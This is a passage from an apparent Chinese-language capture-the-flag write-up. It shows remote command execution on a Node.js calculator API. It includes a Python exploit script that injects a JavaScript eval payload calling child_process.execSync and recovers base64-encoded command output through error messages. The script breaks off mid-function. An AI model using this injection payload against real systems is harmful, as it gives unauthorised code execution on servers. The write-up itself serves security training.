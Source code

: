 最终可以得到

```bash
> whoami
nobody
```

> 还是太慢了！有没有更快的办法？
>
> 有的有的，报错！

![img](img/image_20250354-215428.png)

那么只需要使用`base64`将命令执行的结果搞回来就可以了

```python
import base64
import requests
from setuptools import Command

url = "http://94.237.57.18:58093/api/calculate"

proxies = {
    "http": "http://127.0.0.1:8080",
    "https": "http://127.0.0.1:8080",
}


def exploit(url: str, command: str):
    payload = (
        "(function (x) { return `${eval(\"if(global.process.mainModule.constructor._load('child_process').execSync('echo 123`"
        + command
        + " | base64 -w 0`123 | bash').toString().charCodeAt(0) == 41) {25} else {1}\")}` })()"
    )

    data = {"name": "123", "formula": payload}
    r = requests.post(url, json=data, proxies=proxies)
    res = r.text.split("line 1: ")[1].split(": command not")[0]
    if res[:3] == "123" and res[-3:] == "123":
```